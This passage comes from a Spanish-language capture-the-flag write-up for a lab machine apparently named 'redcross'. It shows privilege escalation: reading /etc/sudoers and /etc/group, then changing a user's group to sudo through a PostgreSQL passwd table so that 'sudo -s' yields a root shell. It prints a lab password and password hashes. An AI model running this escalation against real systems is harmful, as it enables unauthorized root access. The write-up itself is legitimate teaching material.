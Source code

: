 ``` text
-rw-------  1 root root 1.0K Jun  3  2018 .rnd
-rw-------  1 root root   33 Jun  8  2018 root.txt
-rw-r--r--  1 root root   74 Jun  6  2018 .selected_editor
drwx------  4 root root 4.0K Jun  3  2018 .thumbnails
-rw-------  1 root root  13K Oct 31 12:30 .viminfo
```

Recordemos que como solo podemos editar el grupo, aunque lo cambiemos a root, no podremos leer todos los archivos donde los permisos solo sean de usuario.

Pero si hay una manera en la que un usuario puede adquirir todos los poderes de otro, esto es mediante SUDO. Ahora que somos del grupo chido, veamos que hay en sudoers:

``` text
miau@redcross:~$ cat /etc/sudoers | grep -E 'ALL$'
cat /etc/sudoers | grep -E 'ALL$'
root	ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
```

Esto significa que cualquier que pertenezca al grupo sudo, [podrá](https://www.hostinger.com/tutorials/sudo-and-the-sudoers-file/) subir a root. Ahora solo falta verificar cual es el grupo de sudo:

``` text
miau@redcross:~$ cat /etc/group | grep sudo
cat /etc/group | grep sudo
sudo:x:27:
```

Ahora si, cambiemos el grupo en la shell conectada a postgre:

``` text
update passwd_table set gid=27 where username='miau';
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 miau     | $1$aINCdBU3$DI6tECMqjpMZ.D5c/DkpM/ | 2020 |   27 |       | /var/jail/home | /bin/bash
(2 rows)
```

Ahora que nuestro usuario `miau` pertenece al grupo sudo, elevemos a nuestro usuario:

``` text
miau@redcross:~$ sudo -s
sudo -s

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for miau: CCutRKf7

root@redcross:/var/jail/home#
```
